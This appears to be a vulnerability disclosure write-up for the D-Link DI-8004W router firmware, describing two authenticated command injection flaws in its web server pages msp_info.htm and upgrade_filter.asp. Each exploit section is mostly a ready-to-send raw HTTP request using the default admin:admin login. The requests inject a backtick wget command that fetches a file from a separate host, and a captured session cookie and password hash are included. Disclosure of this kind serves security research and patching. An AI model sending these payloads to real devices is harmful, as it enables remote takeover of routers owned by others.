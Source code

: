 ### D-link DI_8004W rce

Firmware Name: DI_8004W-16.07.26A1.trx

- Model: DI_8004W

-  Version: 16.07.26A1

- Test Environment: Ubuntu 22.04 

- offical website:www.dlink.com

  download link:http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8004W





The DI-8004W is a certified router for internet behavior management.  There are two command execution vulnerability in its jhttpd's msp_info_htm function and upgrade_filter.asp.

affect version:

![image](https://github.com/user-attachments/assets/8288e5da-4021-4bc8-ac01-cd8d42b8c202)




![image](https://github.com/user-attachments/assets/9f0d75fb-1109-4bf3-9ed6-89e8ac40d167)




![image](https://github.com/user-attachments/assets/9fc30bff-b7c0-4af3-9442-fdc1db8efebe)




### exploit 1: function msp_info.htm

After logging in with the default password admin:admin, accessing the msp_info.htm page, and crafting carefully constructed parameters, it is possible to execute commands.

```
GET /msp_info.htm?flag=cmd&cmd=`wget%20http://192.168.0.2:8000/aaa` HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Connection: close

Cookie: uid=DEiAsct48; wys_userid=admin,wys_passwd=1D3BB56A0D060C342D7DF9A62D1C746E

Upgrade-Insecure-Requests: 1




```

![image](https://github.com/user-attachments/assets/982f8b00-e411-4090-8fe1-27511d0a909f)












### exploit 1: function upgrade_filter.asp

After logging in with the default password admin:admin, accessing the upgrade_filter.asp page, and crafting carefully constructed parameters, it is possible to execute commands.

poc

```
GET /upgrade_filter.asp?path=http://`wget%20http://192.168.0.2:8000/asdf` HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Connection: close

Cookie: uid=DEiAsct48; wys_userid=admin,wys_passwd=1D3BB56A0D060C342D7DF9A62D1C746E

Upgrade-Insecure-Requests: 1


```

![image](https://github.com/user-attachments/assets/092f686d-6854-488d-8f3b-f1d7291c07ce)
